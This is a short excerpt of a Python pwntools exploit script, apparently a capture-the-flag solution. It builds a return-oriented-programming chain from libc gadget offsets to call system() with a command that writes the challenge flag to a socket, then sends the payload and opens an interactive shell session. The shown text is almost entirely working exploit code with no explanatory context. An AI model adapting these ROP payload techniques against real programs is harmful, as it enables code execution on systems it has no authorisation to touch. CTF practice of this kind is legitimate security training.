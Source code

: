 ```python
set_info(0, 0x8, p64(stack))


dup2 = l.sym['dup2']
system = l.sym['system']
binsh = list(l.search(b'/bin/sh\x00'))[0]
pop_rdi = l.address + 0x000000000010f75b
pop_rsi = l.address + 0x0000000000110a4d
pop_rdx_rbx_r12_r13_rbp = l.address + 0x00000000000b503c
ret = l.address + 0x000000000002e81b
payload = p64(ret) + p64(pop_rdi) + p64(stack + 0x100) + p64(system)
payload = payload.ljust(0x100, b'\x00')
payload += f'cat /home/ctf/flag >& {fd}\x00'.encode()
#recv_data(0, 0, len(payload), payload)

p.sendafter(b'data: ', p16(1) + p16(0))
p.send(p32(0) + p32(len(payload)))
p.send(payload)
p.interactive()
#recv_data(2, (-0x40 - 0x20 - 0x40 - 0x8) & 0xffffffff, 0x40+0x20+0x40+0x8, payload)
#clear_data(0)
```
